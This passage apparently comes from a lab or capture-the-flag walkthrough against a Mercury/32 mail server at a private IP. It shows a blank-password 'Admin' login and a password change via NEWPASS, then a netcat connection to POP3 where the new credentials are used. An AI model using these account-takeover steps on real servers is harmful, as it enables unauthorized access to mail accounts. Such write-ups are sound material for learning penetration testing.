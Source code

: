 Okay, I have got an idea whis is to login with user `Admin` and password as blank, Let's see!

```bash
USER Admin
300 Send current password using PASS command:
PASS 
200 OK, 'Admin' logged in.
```

Wow, It worked!

Now, Let's get a new password for the user `Admin`!

```bash
NEWPASS test
200 OK, password changed.
```

Okay, So we have a user `Admin` and password `test`, Let's get to the other **POP** service!

#### 110 Port

```bash
$ nc -nv 10.150.150.219 110                                                                         
(UNKNOWN) [10.150.150.219] 110 (pop3) open
+OK <12787729.18997@localhost>, POP3 server ready.
HELP 
+OK
Mercury/32 MTS Post Office Protocol v3 server v4.62,
Copyright (c) 1993-2008 David Harris.
This server recognizes the following commands:
  USER - login as a user
  PASS - specify a password
  APOP - perform secure login
  CAPA - RFC2449 capability discovery
  STLS - Start TLS negotiation, if enabled
  STAT - show mailbox statistics
  RETR - send a message
  LIST - show message numbers and sizes
  DELE - delete a message
  RSET - 'undo' all mailbox changes
  TOP  - show lines from a message
  QUIT - close the connection
  NOOP, RPOP, LAST are also supported.

Extended commands:
  XTND XMIT  - Send a message via POP3
  XTND XLST  - Eudora extended list command
  UIDL - return unique identifier (RFC1725).
.
```

Let's login with our credientials!
```bash
USER Admin
+OK Admin is known here.
PASS test
+OK Welcome! 0 messages (0 bytes)
```
